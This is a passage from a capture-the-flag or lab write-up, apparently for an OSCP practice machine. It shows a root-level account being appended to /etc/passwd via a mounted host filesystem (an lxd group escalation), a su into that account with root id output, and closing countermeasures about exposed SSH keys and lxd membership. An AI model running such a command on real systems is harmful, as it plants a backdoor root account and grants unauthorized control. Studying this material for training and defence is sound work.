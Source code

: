 ```bash
echo 'r0kit:uPz1zBu9ZKVUg:0:0:root:/root:/bin/bash' >> /mnt/root/etc/passwd
```

Since SSH was only enabled via public key, I used my existing shell session to switch to the r0kit user:

```none
-bash-5.0$ su r0kit
Password:
root@oscp:/home/oscp# id
uid=0(root) gid=0(root) groups=0(root)
```

At this point, I had full remote code execution as root on the machine.

### Failed Recon

* Could not use the oscp user's private key to SSH as root.
* Could not recover the plaintext password for the admin user in the wordpress database in a reasonable amount of time.
* Could not recover the oscp user's password.

## Countermeasures

* Never expose SSH private keys on directories accessible via a web server.
* Only allow super users of the machine to be part of the `lxc/lxd` groups. Any user that is part of that group implicitly has root read/write/execute privileges on the system.
